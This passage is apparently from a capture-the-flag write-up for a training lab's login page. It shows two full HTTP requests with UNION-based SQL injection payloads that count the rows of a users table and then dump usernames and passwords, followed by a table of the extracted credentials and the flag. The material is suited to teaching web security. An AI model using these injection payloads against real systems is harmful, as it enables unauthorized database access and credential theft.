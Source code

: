 Determine how many rows are in the table.

```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+UNION+SELECT+-50,(SELECT+COUNT(*)+FROM+users)--&password=woo
```

There are six rows in the table. Dump the table by incrementing through the `LIMIT` offsets, 0-5 and concatenating the column values.

```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+UNION+SELECT+-50,(SELECT+id||':'||username||':'||password+FROM+users+LIMIT+0,1)+ORDER+BY+1--&password=woo
```

| id | username | password |
| --- | --- | --- |
| 1 | admin | rcLYWHCxeGUsA9tH3GNV |
| 2 | dev | asd |
| 3 | amanda | Summer2019! |
| 4 | maja | 345m3io4hj3 |
| 5 | awe32Flage32x | $THM_FLAG |
| 6 | emil | viking123 |

The 5th record contains the flag.